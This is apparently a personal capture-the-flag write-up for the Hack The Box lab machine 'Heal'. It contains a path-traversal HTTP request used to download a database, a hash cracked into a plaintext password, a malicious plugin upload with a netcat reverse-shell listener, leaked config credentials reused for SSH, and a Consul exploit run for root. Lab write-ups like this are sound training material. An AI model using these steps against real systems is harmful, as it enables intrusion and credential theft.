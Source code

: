 we download sqlite3 file 
with burpsuite
use this req
GET /download?filename=../../storage/development.sqlite3 HTTP/1.1

Host: api.heal.htb

Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoyfQ.73dLFyR_K1A7yY9uDP6xu7H1p_c7DlFQEoN1g-LFFMQ

Accept-Language: en-US,en;q=0.9

Accept: application/json, text/plain, */*

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36

Origin: http://heal.htb

Referer: http://heal.htb/

Accept-Encoding: gzip, deflate, br

Connection: keep-alive

then we change file format from pdf to sqlite3
and found 
![[Pasted image 20250130123636.png]]
then we cracked hash that we found

$2a$12$dUZ/O7KJT3.zE4TOK8p4RuxH3t.Bz45DSr7A94VLvY9SWx1GCSZnG
format 3200 hashcat
cracked: password - 147258369
that give for us access in this subdomain 
http://take-survey.heal.htb/index.php/admin/

then we upload plugin and get rce Y1LD1R1M, ZIP FILE SHOULD BE NAME LIKE A NAME PLUGIN!
nc -lvnp 1337
then we found config file
www-data@heal:~/limesurvey/application/config$ cat config.php
'connectionString' => `'pgsql:host=localhost;port=5432;user=db_user;password=AdmiDi0_pA$$w0rd;dbname=survey;`',
'username' => 'db_user',
'password' => `AdmiDi0_pA$$w0rd` 
its password for ron in ssh

ssh -L 1234:localhost:8500 ron@10.10.11.46
exploit consul v1:
python3 51117.py 127.0.0.1 1234 10.10.15.37 2222 0
we get acccess to root


